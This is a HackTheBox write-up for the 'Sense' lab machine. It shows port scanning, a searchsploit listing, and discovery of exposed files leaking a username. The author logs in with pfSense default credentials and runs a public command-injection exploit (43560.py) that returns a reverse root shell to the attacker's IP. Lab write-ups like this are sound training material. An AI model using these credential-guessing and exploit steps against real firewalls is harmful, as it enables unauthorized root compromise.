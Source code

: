 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-03-25
date: 2018-03-25
title: Writeup Hackthebox - Sense
tags: [hackthebox]
mathjax: false
imagefeature: 
description: Writeup Hackthebox - Sense
category: Hackthebox
chart: null
---
```



## Machine Detail
---
**Name :** Sense<br>
**IP :** 10.10.10.60<br>
**Author :** lkys37en<br>
**Hostname :** sense.htb<br>
**OS :** FreeBSD <img src="/images/os/freebsd.png" alt="FreeBSD" style="width: 20px;"/><br>



## Discovery
---

Port | Service | Version
--- | --- | ---
*80* | http | Apache httpd 2.4.10 ((Debian))
*443*  | ssl/http | Apache httpd 2.4.25 ((Ubuntu))

<br/>
## Exploitation
---

Scanning using nmap give us information about 2 ports is opened with same services running
which is PfSense, we need to login first to access the system trying default user for PfSense `admin:pfsense` without luck.

![PfSense](/images/valentine/pfsense.png)

So we need to find public exploit about pfsense I using `seachsploit`

```
•% ➜ searchsploit pfsense
------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                                                                          |  Path
                                                                                                                        | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                                                      | exploits/hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                                            | exploits/hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                                                        | exploits/hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                                                    | exploits/hardware/remote/35070.txt
pfSense - Authenticated Group Member Remote Command Execution (Metasploit)                                              | exploits/unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                                            | exploits/php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution                            | exploits/php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                                                   | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                                                  | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                                                     | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                                                     | exploits/php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                                                       | exploits/php/webapps/41501.txt
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)                                         | exploits/php/remote/43341.rb
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                                          | exploits/php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                                              | exploits/php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                                                         | exploits/php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                                            | exploits/php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                                                       | exploits/freebsd/webapps/24439.txt
------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result
```

Almost all the exploitation requre us to authenticated first, we didn't have any account yet 
so we brutefoce directory using dirbuster and get this result

```
https://10.10.10.60/changelog.txt
https://10.10.10.60/index.php
https://10.10.10.60/installer/
https://10.10.10.60/tree/
https://10.10.10.60/csrf/
https://10.10.10.60/javascript/
https://10.10.10.60/system-users.txt
```

the interesting files is `changelog.txt` and `system-users.txt`, this is the content of changelog.txt

```
# Security Changelog

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

so the first clue is this machine still vulnerable from public exploit, 
and system-users.txt content is

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

we got a username `Rohit` to login to but what the password is ? I just guessing 
same with pfsense default user password which is `pfsense` then
I try to login with user: Rohit pass: pfsense but still got incorrect password
after trying to change the username to all lowercase we can successfuly loggedin
with user: rohit pass: pfsense 

(￣ε￣＠)

after authenticated now we can use the exploit which require us to authenticated first,
I try the latest vulnerability published in 2018-01-12 `CVE : CVE-2014-4688`

```
python3 43560.py --username=rohit --password=pfsense --lhost=10.10.14.43 --lport=6969 --rhost=10.10.10.60
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
d08c32a5d[Redacted]b51a69f1a86
# ls /home/
.snap
rohit
# ls /home/rohit
.tcshrc
user.txt
# cat /home/rohit/user.txt
8721327c[Redacted]b40d27d9c17e7348b#
```

After running the exploit we got a root shell ٩(◕‿◕｡)۶ 

